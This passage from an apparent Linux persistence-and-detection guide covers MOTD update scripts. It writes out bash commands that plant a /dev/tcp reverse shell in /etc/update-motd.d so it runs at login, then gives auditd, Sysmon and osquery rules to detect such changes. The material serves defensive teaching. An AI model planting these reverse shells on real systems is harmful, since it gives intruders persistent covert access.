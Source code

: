 For example, if `90-updates-available` exists we can add

```bash
echo '/bin/bash -l > /dev/tcp/127.0.0.1/1337 0<&1 2>&1 &' >>  /etc/update-motd.d/90-updates-available
```

Similarly, if doesn't exist, we can drop our own script.

```bash
cat > /usr/lib/update-notifier/update-motd-updates-available  << EOF
#! /bin/bash
/bin/bash -l > /dev/tcp/127.0.0.1/1337 0<&1 2>&1 &
EOF
chmod +x /usr/lib/update-notifier/update-motd-updates-available

cat > /etc/update-motd.d/90-updates-available << EOF
#!/bin/sh
if [ -x /usr/lib/update-notifier/update-motd-updates-available ]; then
    exec /usr/lib/update-notifier/update-motd-updates-available
fi
EOF
chmod +x /etc/update-motd.d/90-updates-available 
````

#### 10.3 Detecting changes in `/etc/update-motd.d`

We won't go dwell on this too much since this is very similar to the `/etc/init.d`

##### 10.3.1 auditd

This is not present in our reference [Neo23x0/auditd](https://github.com/Neo23x0/auditd/blob/master/audit.rules).

```
-w /etc/update-motd.d/ -p wa -k motd
```

##### 10.3.2 sysmon


This is not implemented in [microsoft/MSTIC-Sysmon](https://github.com/microsoft/MSTIC-Sysmon/tree/main/linux)

```xml
<FileCreate onmatch="include">
    <Rule name="TechniqueID=T1037,TechniqueName=Boot or Logon Initialization Scripts: motd" groupRelation="or">
        <TargetFilename condition="begin with">/etc/update-motd.d/</TargetFilename>
    </Rule>
</FileCreate>
```
##### 10.3.3 osquery

```sql
SELECT path, filename, md5, size, atime, mtime, ctime 
FROM file JOIN hash USING(path) 
WHERE path LIKE "/etc/update-motd.d/%" 
ORDER BY mtime DESC
```
